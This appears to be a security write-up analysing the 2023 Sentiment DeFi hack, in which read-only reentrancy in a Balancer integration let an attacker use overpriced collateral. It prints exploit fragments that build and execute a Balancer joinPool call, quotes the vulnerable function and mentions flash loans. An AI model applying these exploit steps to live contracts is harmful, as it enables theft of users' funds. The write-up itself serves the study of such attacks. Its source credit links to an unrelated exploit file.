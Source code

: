# Sentiment


## What's Sentiment?


## Amount stolen
**$1M USD**

March 3,2023

## Vulnerability
Read-Only-Reentrancy

Balancer integration


## Analysis
The attacker used view re-entrance Balancer bug to execute malicious code before pool balances were updated and steal money using overpriced collateral

Reentrant attacks in read-only mode occur when a view function is initially called and later reentered by another function that alters the contract's state.
This vulnerability can be exploited by manipulating the values used in functions dependent on the returned results, leading to potential rate manipulation or incorrect parsing.

// A reentrancy attack occurs when a smart contract fails to update its state before sending funds. This lets an attacker continuously call the contract’s withdraw function to drain funds.





```solidity
 uint256[] memory amountIn = new uint256[](3);
        amountIn[0] = 0;
        amountIn[1] = 50 * 1e18;
        amountIn[2] = 0;
        bytes memory userDatas = abi.encode(uint256(1), amountIn, uint256(0));
        IBalancerVault.JoinPoolRequest memory joinPoolRequest_1 = IBalancerVault.JoinPoolRequest({
            asset: assets,
            maxAmountsIn: amountIn,
            userData: userDatas,
            fromInternalBalance: false
        });
```


```solidity
      bytes memory execData = abi.encodeWithSelector(0xb95cac28, PoolId, account, account, joinPoolRequest_1);
        AccountManager.exec(account, address(Balancer), 0, execData); // deposit 50 WETH
```

### Exploited code

```solidity
    function _joinOrExit(
        PoolBalanceChangeKind kind,
        bytes32 poolId,
        address sender,
        address payable recipient,
        PoolBalanceChange memory change
    ) private nonReentrant withRegisteredPool(poolId) authenticateFor(sender) {

        ** removed non exploit code **

        // The bulk of the work is done here: the corresponding Pool hook is called, its final balances are computed,
        // assets are transferred, and fees are paid.
        (
            bytes32[] memory finalBalances,
            uint256[] memory amountsInOrOut,
            uint256[] memory paidProtocolSwapFeeAmounts
        ) = _callPoolBalanceChange(kind, poolId, sender, recipient, change, balances);


        ** removed non exploit code **
    }
```

# proof of concept (PoC) 

attacker flashloaned 606 WBTC,10_000 ETH and 18 million USDC tokens the from sentiments lending pool

Entry point: _joinOrExit

Whats `_joinOrExit?`

`_joinOrExit` function is called whenever the `joinPool` or `exitPool`





![euler Image](../images/sentiment/Sentiment1.drawio.png)
![euler Image](../images/sentiment/Sentiment2.drawio.png)


**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
